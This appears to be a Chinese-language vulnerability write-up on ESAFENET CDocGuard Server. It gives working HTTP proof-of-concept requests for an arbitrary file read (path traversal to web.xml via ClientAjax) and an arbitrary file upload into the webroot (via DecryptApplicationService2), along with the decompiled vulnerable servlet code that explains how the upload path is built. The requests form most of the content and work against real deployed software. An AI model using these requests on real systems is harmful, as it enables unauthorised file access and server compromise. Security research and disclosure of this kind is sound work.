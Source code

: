 


### （1）ClientAjax任意文件读取漏洞

```
POST /CDGServer3/ClientAjax HTTP/1.1
Content-Type: application/x-www-form-urlencoded

command=downclientpak&InstallationPack=../WEB-INF/web.xml&forward=index.jsp
```



### （2）DecryptApplicationService2 任意文件上传漏洞

```
POST /CDGServer3/DecryptApplicationService2?fileId=../../../Program+Files+(x86)/ESAFENET/CDocGuard+Server/tomcat64/webapps/CDGServer3/123.txt HTTP/1.1

This is a Test
```

然后访问

```
GET /CDGServer3/123.txt
```

这是一个非常显而易见的文件上传漏洞。代码如下。关键问题在于`this.model.getDir()`的值是什么。才好构造`fileId`

```java
protected void service(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        new CodeDecoder();
        String fileId = request.getParameter("fileId");
        String uploadPath = this.model.getDir() + fileId;
        InputStream iStream = null;
        BufferedInputStream bf = null;
        FileOutputStream fos = null;
        BufferedOutputStream bos = null;

        try {
            log.info("服务器读取客户端传过来的文件流：" + CDGUtil.getTime());
            iStream = request.getInputStream();
            bf = new BufferedInputStream(iStream);
            fos = new FileOutputStream(uploadPath);
            bos = new BufferedOutputStream(fos);
            byte[] bytes = new byte[1024];

            for(int read = bf.read(bytes); read != -1; read = bf.read(bytes)) {
                if (CDGUtil.isGF()) {
                    try {
                        if (read < 1024) {
                            bos.write(bytes, 0, read);
                        } else {
                            bos.write(CDGUtil.encode(bytes), 0, read);
                        }

                        bos.flush();
                    } catch (Exception var18) {
                        var18.printStackTrace();
                    }
                } else {
                    bos.write(bytes, 0, read);
                }
            }
        }
```
